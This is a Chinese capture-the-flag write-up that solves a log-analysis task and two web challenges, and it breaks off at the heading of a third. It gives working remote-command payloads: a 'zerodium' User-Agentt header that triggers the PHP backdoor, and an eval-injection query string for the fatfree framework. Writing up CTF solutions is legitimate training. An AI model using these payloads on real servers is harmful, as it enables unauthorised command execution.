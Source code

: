 

# 虎符CTF Writeup by X1cT34m

[toc]

![QQ图片20210404134348](https://gitee.com/leonsec/images/raw/master/QQ图片20210404134348.png)

## MISC

### 你会日志分析吗

时间注入，手撸日志得到ascii码，转换到`ZmxhZ3tZb3VfYXJlX3NvX2dyZWF0fQ==`，base64解密

## Web

### 签到

签到访问任意PHP文件，User-Agentt: zerodiumphpinfo();

User-Agentt: zerodiumsystem('cat /flag');


### unsetme

看到是fatfree框架，github下载最新`fatfree-3.7.3`源码，本地index.php改成题目给的

传参后看到debug的调用栈，本地动态调试一下

![image-20210403140105240](https://gitee.com/leonsec/images/raw/master/image-20210403140105240.png)

直接在unset下断点

![image-20210403140026001](https://gitee.com/leonsec/images/raw/master/image-20210403140026001.png)

跟进到`base.php`，看到530行左右有`eval`，因为是拼接执行所以猜测存在命令注入

![image-20210403135453125](https://gitee.com/leonsec/images/raw/master/image-20210403135453125.png)

虽然对引号等有转义，但是绕一下就ok，调试的时候发现主要是它对`[]`过滤的有点问题


```php
?a=n[]);system($_POST[0]);echo(1
POST:
0=cat /flag
```

![image-20210403135248632](https://gitee.com/leonsec/images/raw/master/image-20210403135248632.png)

flag{d77d7d9b-941a-4087-949f-c72a466f9c5b}

### “慢慢做”管理系统
